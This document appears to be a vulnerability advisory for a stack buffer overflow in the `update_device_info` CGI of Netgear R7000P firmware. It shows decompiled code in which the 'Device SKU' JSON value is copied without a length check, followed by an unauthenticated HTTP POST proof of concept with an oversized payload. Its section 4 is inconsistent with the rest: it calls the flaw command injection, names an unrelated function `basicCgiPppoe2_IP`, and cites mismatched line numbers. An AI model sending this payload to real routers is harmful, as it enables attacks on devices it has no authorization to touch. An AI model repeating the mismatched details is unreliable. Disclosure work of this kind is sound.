 # Buffer Overflow Vulnerability in `update_device_info`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R7000P Router                                        |
| Firmware Version     | V1.3.1.64_10.1.36                                            |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `update_device_info` (`sub_1154C`, processing of `"Device SKU"`) |
| Prerequisites        | No authentication required; attacker must supply crafted JSON input containing the `"Device SKU"` field |

2. Exploitation Path

```c
int __fastcall sub_1154C(_BYTE *a1, const char *a2, char *a3, int a4, char *dest, int n)
{
  ...
  char v23[104]; // [sp+8h] [bp-68h] BYREF
  ...
  else
  {
    v22 = a3;
    v16 = a4;
    while ( 1 )
    {
      ArrayItem = cJSON_GetArrayItem(v13, v11);
      v18 = *(const char **)(cJSON_GetObjectItem(ArrayItem, "Device SKU") + 16);
      memset(v23, 0, 0x40u);
      if ( *v18 == 42 && (v19 = strlen(v18), v18[v19 - 1] == 42) )
        strncpy(v23, v18 + 1, v19 - 2);
      else
        strcpy(v23, v18);
      ...
}
```

3. **Vulnerable Binaries:** The vulnerabilities are located in the `update_device_info` binary.

4. 0-Day Command Injection Exploitation Path: Multiple buffer overflow vulnerabilities are present in the `basicCgiPppoe2_IP` function:
   - Within function `sub_1154C`, line 13 executes `v18 = *(const char **)(cJSON_GetObjectItem(ArrayItem, "Device SKU") + 16)`. When the retrieved value does **not** begin and end with `*`, the data is directly copied into line 18 via `strcpy(v23, v18)` without any length validation, thereby leading to a buffer overflow vulnerability.
   - Within function `sub_1154C`, line 13 executes `v18 = *(const char **)(cJSON_GetObjectItem(ArrayItem, "Device SKU") + 16)`. When the retrieved value **does** begin and end with `*`, the data is directly processed at line 16 via `strncpy(v23, v18 + 1, v19 - 2)` without proper length restriction, which likewise results in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/update_device_info HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Content-Length: 300
Connection: close

{
  "devices": [
    {
      "Device SKU": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
      "OtherField": "value"
    }
  ]
}
```